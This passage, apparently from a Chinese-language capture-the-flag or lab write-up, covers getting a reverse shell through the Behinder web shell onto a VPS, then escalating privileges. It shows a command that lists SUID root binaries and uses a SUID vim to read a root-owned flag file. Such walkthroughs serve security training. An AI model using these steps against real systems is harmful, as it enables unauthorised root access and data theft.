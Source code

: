 有一些不方便，用冰蝎的反弹 shell 功能弹到 vps 上

## 提权

```plain
find / -user root -perm -4000 -print 2>/dev/null
```

[![](assets/1706771111-d11184e15f02846f05ee7ba28b5f5787.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173455-a992b512-be89-1.png)

发现`vim`，直接猜测一手 flag 位置

```plain
vim /root/flag/flag01.txt
```

[![](assets/1706771111-54a27da25271eb7167c32c2a33d6fe04.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173501-ad1c639a-be89-1.png)

# 内网探测
